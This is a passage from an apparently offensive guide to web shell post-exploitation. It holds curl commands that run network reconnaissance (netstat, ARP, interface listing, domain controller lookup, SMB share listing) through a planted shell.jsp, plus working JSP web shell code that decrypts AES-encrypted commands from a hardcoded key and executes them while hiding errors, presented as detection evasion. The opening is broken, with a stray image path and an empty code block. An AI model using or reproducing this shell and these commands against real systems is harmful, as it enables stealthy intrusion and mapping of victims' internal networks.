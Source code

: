 ```java
```

#### Network Reconnaissance
```bash
# Internal network discovery
curl "http://target:8080/shell.jsp?cmd=netstat+-tulpn"

# ARP table enumeration
curl "http://target:8080/shell.jsp?cmd=arp+-a"

# Network interface configuration
curl "http://target:8080/shell.jsp?cmd=ipconfig+/all"  # Windows
curl "http://target:8080/shell.jsp?cmd=ifconfig+-a"   # Linux

# DNS server identification
curl "http://target:8080/shell.jsp?cmd=nslookup+domain-controller.company.local"

# SMB share enumeration
curl "http://target:8080/shell.jsp?cmd=net+view+/domain"
```

---

## Defense Evasion and Operational Security

### Anti-Detection Techniques

#### Web Shell Obfuscation
```java
<%@ page import="java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%
// AES encrypted command execution
String encKey = "MySecretKey12345";
String encCmd = request.getParameter("data");

if (encCmd != null) {
    try {
        SecretKeySpec key = new SecretKeySpec(encKey.getBytes(), "AES");
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, key);
        
        byte[] decrypted = cipher.doFinal(java.util.Base64.getDecoder().decode(encCmd));
        String cmd = new String(decrypted);
        
        Process p = Runtime.getRuntime().exec(cmd);
        // ... command execution logic
        
    } catch (Exception e) {
        response.sendError(500, "Internal Server Error");
    }
}
%>
```
